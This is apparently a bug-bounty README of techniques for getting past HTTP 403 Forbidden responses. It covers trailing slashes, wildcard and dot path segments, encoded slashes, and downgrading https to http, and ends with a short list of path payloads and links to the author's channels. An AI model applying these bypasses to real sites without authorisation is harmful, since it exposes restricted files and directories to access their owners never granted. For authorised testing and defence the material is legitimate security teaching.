 ## 403 Bypass
I am sharing all this tips and techniques from my own personal experiance there no official references for that

### Directory Based
If you see directory with no slash at end then do these acts there
```
site.com/secret => 403
site.com/secret/* => 200
site.com/secret/./ => 200
```
### File Base
If you see file without any slash at end then do these acts there
```
site.com/secret.txt => 403
site.com/secret.txt/ => 200
site.com/%2f/secret.txt/ => 200
```
### Protocol Base
Well, sound wired but check out the example for better understanding
```
https://site.com/secret => 403
http://site.com/secret => 200
```
## Payloads
```
/
/*
/%2f/
/./
./.
/*/
```
## Proof Of Concept
Well Always look for some references or proof of concept if someone sharing any tips so you may confirm you are not wasting your time at all.
I have some poc video on my YouTube channel for 403 and other Improper access control bugs with those methods. You can check them

YouTube: [Mehedi Hasan Remon](https://www.youtube.com/channel/UCF_yxU7acxUojiGiOAMafQQ/videos?view_as=subscriber)

Author:[@remonsec](https://twitter.com/remonsec)
